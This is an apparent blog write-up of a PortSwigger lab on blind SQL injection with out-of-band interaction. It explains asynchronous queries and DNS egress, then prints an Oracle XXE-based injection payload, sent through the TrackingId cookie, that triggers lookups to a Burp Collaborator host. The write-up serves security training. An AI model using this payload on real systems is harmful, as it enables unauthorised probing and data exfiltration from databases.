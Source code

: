 # Blind SQL injection with out-of-band interaction | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band), you'll learn: Blind SQL injection with out-of-band interaction! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120135.png)

**Cookies:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120205.png)

When we go to `/`, it'll set a new cookie called `TrackingId`.

This looks like a tracking cookie for analytics.

The SQL query may looks like this:

```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '<our_cookie_value>'
```

**That being said, we can try to perform SQL injection.**

**To do so, I'll try to trigger an SQL query error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120405.png)

However, it seems like we don't recieve any response when we modified the tracking cookie.

Maybe carries out the SQL query **asynchronously**?

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

### Blind SQL injection with DNS lookup

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup payloads:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120657.png)

Since we don't know which DBMS (Database Management System) is using, we need to try them all one by one.

**First, go to Burp Suite's Collaborator and click "Copy to clipboard":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120850.png)

**Then, we'll try Oracle XXE vulnerability to trigger a DNS lookup:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual
```

**Payload:**
```sql
1G73QrMQUaCdamOl' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**The SQL query may become:**
```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '1G73QrMQUaCdamOl' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
```

Let's send the payload!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301124253.png)

> Note: The payload needs to be URL encoded.

**Burp Suite's Collaborator:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301124332.png)

We've recieved 4 DNS lookups! Which means the `TrackingId` cookie is vulnerable to out-of-band SQL injection!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301124416.png)

# What we've learned:

1. Blind SQL injection with out-of-band interaction